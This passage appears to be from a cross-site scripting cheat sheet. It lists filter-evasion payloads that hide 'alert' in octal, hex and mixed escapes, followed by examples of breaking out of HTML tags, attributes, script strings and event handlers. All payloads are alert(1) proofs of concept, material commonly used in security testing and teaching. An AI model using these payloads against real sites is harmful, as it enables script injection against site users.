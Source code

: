 -> octal  
```
<img src=x onerror="eval('\141lert(1)')"/>
```
-> hexadecimal  
```
<img src=x onerror="setInterval('\x61lert(1)')"/>
```
-> mix  (uni, hex, octa)  
```
<img src=x onerror="setTimeout('\x61\154\145\x72\164\x28\x31\x29')"/>
```
https://checkserp.com/encode/unicode/  
http://www.unit-conversion.info/texttools/octal/  
http://www.unit-conversion.info/texttools/hexadecimal/  

### Other Examples
#### HTML Tag
```
<div>here</div>
```
->  
```
<svg/onload=alert(1)
```

#### HTML Tag Attributes
```
<input value="here"/></input>
```
 
->  
```
" /><script>alert(1)</script>
```
  
#### Script Tag
```
<script>
    var name="here";
</script>
```
  
->  
```
";alert(1);//
```

#### Event Attributes
```
<button onclick="here;">Okay!</button>
```

->  
```
alert(1)
```
